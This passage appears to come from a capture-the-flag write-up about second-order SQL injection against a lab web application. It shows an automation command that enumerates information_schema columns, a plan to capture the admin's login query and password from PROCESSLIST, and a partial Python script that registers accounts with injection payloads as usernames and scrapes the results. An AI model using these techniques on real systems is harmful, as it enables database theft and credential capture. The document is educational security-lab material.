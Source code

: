 There is still the `logins` table that we have not checked. However, upon extracting the column names, we see there are only two: `username` and `login_time`; neither of these is useful.

```console
$ ./sqli_automate2.py 'http://10.10.104.157/' 'SELECT group_concat(column_name) FROM information_schema.columns where table_schema="web" and table_name="logins"'
username,login_time
````
{: .wrap }

## Extracting the Current Queries

### Union-Based SQL Injection

While there is nothing particularly useful in the `web` database, we still have access to the `information_schema` database. One table in the `information_schema` that can greatly assist us is `PROCESSLIST`.

Using the `PROCESSLIST` table, we can query the currently running queries in the database. Since the `admin` user logs into the site every minute and there is a call to the `SLEEP` function in the login query, we have a five-second window every minute to read the login query from the table. If the password hashing for the user is not done in the `PHP` code but is instead passed to **MySQL** using the `MD5` function, we might be able to capture the password for the `admin` user.

However, there is one more hurdle to overcome. Currently, we are registering and logging in with a new account for each **16**-character block, which takes as long as the `admin` user's login query to run. With our current approach, we would only be able to extract the first **16** characters of the login query, if we're lucky.

Fortunately, our payload to extract the data does not execute while we are registering or logging in; it runs when we visit the last logins page. To solve this problem, we can modify our script once more, this time registering and logging in to the accounts beforehand and continuously extracting data by making requests to the last logins page with the already logged-in accounts afterward.

```py
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup
import threading
import time

url_base = sys.argv[1]
payload = sys.argv[2]

sessions = {}
results = {}


def create_and_login(i, sqli_payload):
    s = requests.session()
    s.post(url_base + "register.php", data={"username": sqli_payload, "password": "jxf", "submit": "Submit Query"})
    s.post(url_base + "login.php", data={"username": sqli_payload, "password": "jxf", "login": "Submit Query"})
    sessions[i] = s
    return


def fetch_query_result(i):
    r = sessions[i].get(url_base)
    soup = BeautifulSoup(r.text, "html.parser")
    tables = soup.find_all("table", class_="u-full-width")
    output = tables[1].find("td").get_text()
    results[i] = output
```